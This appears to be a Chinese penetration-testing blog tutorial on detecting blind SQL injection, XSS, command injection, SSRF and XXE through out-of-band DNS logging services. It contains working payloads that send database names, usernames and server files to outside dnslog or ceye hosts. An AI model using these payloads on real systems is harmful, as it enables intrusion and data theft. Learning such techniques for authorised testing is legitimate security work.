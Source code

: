 @[TOC]
##  前言
前几天看到关于这个的总结，我也自己总结一下，主要多一种思路。
在渗透测试过程中，开发不可能每一次都将结果输出到页面上，也就是漏洞无回显的情况，那么在这种情况下，我们可以通过dnslog判断漏洞存在，或者通过起一个python的http服务来判断，方法很多，下面主要进行一些情况的分析。

平台：
[DNSlog](http://www.dnslog.cn/)
[CEYE](http://ceye.io/)
##  SQL注入没有回显
在sql注入中，有回显的意思是会显示出我们想要得到的内容。对于有回显的，我们有Union注入，报错注入的类型。没有回显的，有布尔盲注和时间盲注的类型。当然sql注入类型，还有堆叠注入，两次注入，宽字节注入这种类型。
###  布尔盲注
实验地址：BUU的sql-labs

![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/50e440daba2040779b97bf51febbf0fb.png)
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/39bf717143364ad7964d3ce8f7f89552.png)
当语句正确，有回显，语句错误，没有回显。
这个时候就是典型的布尔盲注。
语句为`id=1' and length(database())>7--+`，有回显
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/55923fd0edf04f2980902fc6e2bfcc54.png)
语句为`id=1' and length(database())>8--+`，没有回显
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/4aad084df5394271a775f24fb58e0ca1.png)
这样我们就可以得出数据库长度为8，后面操作类似
我们用脚本爆
###  时间盲注
延时盲注，一种盲注的手法。在渗透测试过程中当我们不能使用显错注入、报错注入以及布尔盲注无论布尔值为真还是为假，页面都返回一样之后，我们可以尝试使用延时盲注，通过加载页面的时间长度来判断数据是否成功。在PHP中有一个if()函数，语法为if(exp1,exp2,exp3)，当exp1返回为真时，执行exp2，返回为假时，执行exp3。配合延时函数sleep()来获取相应数据的ascii码，最后还原成数据。下面我将通过实例来介绍如今进行延时盲注。
1.我们发现，后面的布尔值不论是真还是假，页面返回的都是一样的
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/68452c0bbed840138a84077d784e1082.png)
2.典型的时间盲注
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/f17311c754ce4651aae08c70c1dc85c8.png)
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/ff3b6f59731746e381c9410636750575.png)
符合时间盲注。后面的操作也类似
我们还是使用脚本爆出。
###  dnslog打sql注入(重要)
**Dnslog**

dnslog，即dns日志，会解析访问dns服务的记录并显示出来，常被用来测试漏洞是否存在以及无法获取数据的时候进行外带数据。简单来说，dnslog就是一个服务器，会记录所有访问它的记录，包括访问的域名、访问的IP以及时间。那么我们就可以通过子查询，拼接dnslog的域名，最后通过dns日志得到需要的数据。

**Load_file()函数**
数据库中的load_file()函数，可以加载服务器中的内容。load_file('c:/1.txt')，读取文件并返回内容为字符串，使用load_file()函数获取数据需要有以下几个条件：
1.文件在服务器上
2.指定完整路径的文件
3.必须有FILE权限

利用DNSlog可以直接显示出sql注入的数据，从而进行数据的外带。
```php
?id=1 ' union select 1,2,load_file(concat('//',(select database()),'.vln43t.dnslog.cn
/abc')) %23
```
然后到DNSlog.cn平台上刷新记录，就可以看到数据库显示出来。
也可以利用CEYE平台
##  DNS盲打xss
作用：主要是用来判断XSS漏洞的存在
通过盲打，让触发者浏览器访问预设至的链接地址，如果盲打成功，会在平台上收到如下的链接访问记录：
payload：
```php
<img src=http://xss.t7y3wc.dnslog.cn>
```
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/7a5d1f6fb0ad467f982b20210d42232a.png)
##  命令执行（重要）
针对不回显的命令注入漏洞，我们很难确定漏洞的存在并进一步利用，针对这种情况，我们可以利用DNSLOG来获取命令的执行结果

判断是否有命令执行漏洞
payload
```php
curl http://haha.xxx.ceye.io/aaa
ping hhh.xxxx.ceye.io
```
利用命令执行漏洞
```
http://127.0.0.1/test_blind/exec.php?cmd=ping+%USERNAME%.io5a5i.dnslog.cn
```
其中%USERNAME%表示windows用户名
```
附上windows常用变量
%APPDATA% :  列出应用程序数据的默认存放位置。
%CD% :  列出当前目录。
%CLIENTNAME% :  列出联接到终端服务会话时客户端的NETBIOS名。
%CMDCMDLINE% :  列出启动当前cmd.exe所使用的命令行。
%CMDEXTVERSION% :  命令出当前命令处理程序扩展版本号。
%CommonProgramFiles% :  列出了常用文件的文件夹路径。
%COMPUTERNAME% :  列出了计算机名。 
%COMSPEC% :  列出了可执行命令外壳（命令处理程序）的路径。
%DATE% :  列出当前日期。
%ERRORLEVEL% :  列出了最近使用的命令的错误代码。
%HOMEDRIVE% :  列出与用户主目录所在的驱动器盘符。
%HOMEPATH% :  列出用户主目录的完整路径。
%HOMESHARE% :  列出用户共享主目录的网络路径。
%LOGONSEVER% :  列出有效的当前登录会话的域名控制器名。
%NUMBER_OF_PROCESSORS% :  列出了计算机安装的处理器数。
%OS% :  列出操作系统的名字。(Windows XP 和 Windows 2000 列为 Windows_NT.)
%Path% :  列出了可执行文件的搜索路径。
%PATHEXT% :  列出操作系统认为可被执行的文件扩展名。 
%PROCESSOR_ARCHITECTURE% :  列出了处理器的芯片架构。
%PROCESSOR_IDENTFIER% :  列出了处理器的描述。
%PROCESSOR_LEVEL% :  列出了计算机的处理器的型号。 
%PROCESSOR_REVISION% :  列出了处理器的修订号。
%ProgramFiles% :  列出了Program Files文件夹的路径。
%PROMPT% :  列出了当前命令解释器的命令提示设置。
%RANDOM% :  列出界于0 和 32767之间的随机十进制数。
%SESSIONNAME% :  列出连接到终端服务会话时的连接和会话名。
%SYSTEMDRIVE% :  列出了Windows启动目录所在驱动器。
%SYSTEMROOT% :  列出了Windows启动目录的位置。
%TEMP% and %TMP% :  列出了当前登录的用户可用应用程序的默认临时目录。
%TIME% :  列出当前时间。
%USERDOMAIN% :  列出了包含用户帐号的域的名字。
%USERNAME% :  列出当前登录的用户的名字。
%USERPROFILE% :  列出当前用户Profile文件位置。
%WINDIR% :  列出操作系统目录的位置。  
%ALLUSERSPROFILE% 本地 返回“所有用户”配置文件的位置。 
%APPDATA% 本地 返回默认情况下应用程序存储数据的位置。 
%CD% 本地 返回当前目录字符串。 
%CMDCMDLINE% 本地 返回用来启动当前的 Cmd.exe 的准确命令行。 
%CMDEXTVERSION% 系统 返回当前的“命令处理程序扩展”的版本号。 
%COMPUTERNAME%  系统 返回计算机的名称。 
%COMSPEC%  系统 返回命令行解释器可执行程序的准确路径。 
%DATE%  系统 返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。 
%ERRORLEVEL%  系统 返回上一条命令的错误代码。通常用非零值表示错误。 
%HOMEDRIVE%  系统 返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。 
%HOMEPATH%  系统 返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。 
%HOMESHARE%  系统 返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。 
%LOGONSERVER%  本地 返回验证当前登录会话的域控制器的名称。 
%NUMBER_OF_PROCESSORS%  系统 指定安装在计算机上的处理器的数目。 
%OS%  系统 返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。 
%PATH% 系统 指定可执行文件的搜索路径。 
%PATHEXT% 系统 返回操作系统认为可执行的文件扩展名的列表。 
%PROCESSOR_ARCHITECTURE%  系统 返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。 
%PROCESSOR_IDENTFIER% 系统 返回处理器说明。 
%PROCESSOR_LEVEL%  系统 返回计算机上安装的处理器的型号。 
%PROCESSOR_REVISION% 系统 返回处理器的版本号。 
%PROMPT% 本地 返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。 
%RANDOM% 系统 返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。 
%SYSTEMDRIVE% 系统 返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。 
%SYSTEMROOT%  系统 返回 Windows server operating system 根目录的位置。 
%TEMP% 和 %TMP% 系统和用户 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。 
%TIME% 系统 返回当前时间。使用与 time /t 命令相同的格式。由 Cmd.exe 生成。有关 time 命令的详细信息，请参阅 Time。 
%USERDOMAIN% 本地 返回包含用户帐户的域的名称。 
%USERNAME% 本地 返回当前登录的用户的名称。 
%USERPROFILE% 本地 返回当前用户的配置文件的位置。 
%WINDIR% 系统 返回操作系统目录的位置。
%allusersprofile%--------------------所有用户的profile路径
%Userprofile%-----------------------当前用户的配置文件目录
%Appdata%--------------------------当前用户的应用程序路径
%commonprogramfiles%-------------应用程序公用的文件路径
%homedrive%------------------------当前用户的主盘
%Homepath%------------------------当前用户的主目录
%programfiles%----------------------应用程序的默认安装目录
%systemdrive%----------------------系统所在的盘符
%systemroot%-----------------------系统所在的目录
%windir%----------------------------同上，总是跟systemroot一样
%tmp%------------------------------当前用户的临时目录
%temp%-----------------------------同上临时目录
```


##  SSRF（重要）
SSRF即服务端请求伪造，一种由攻击者构造的通过服务器发起请求的攻击。
测试代码
```php
<?php 
    echo file_get_contents($_GET['url']);
?>
```
直接url访问
payload
```php
url=http://ssrf.xxx.ceye.io
```
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/5667c9f009c84d7aba96574726a81a1e.png)
然后看我们的dnslog平台是否有服务器的IP来判断
##  XXE
当我们遇到XXE，如果这个XXE漏洞可以解析外部实体，那么不用说，就可以拿来读取本地服务器文件，这时，我们只需把dtd文件改成这样
```xml
<!ENTITY % all
"<!ENTITY % send SYSTEM 'http://xxxx.ceye.io/%file;'>"
>
%all;
```
在我们的ceye平台就可以接收到这个读取的服务器文件了。

 ##   参考文章
 ```
 https://xz.aliyun.com/t/9916#toc-8
 https://www.freebuf.com/articles/web/201013.html
 ```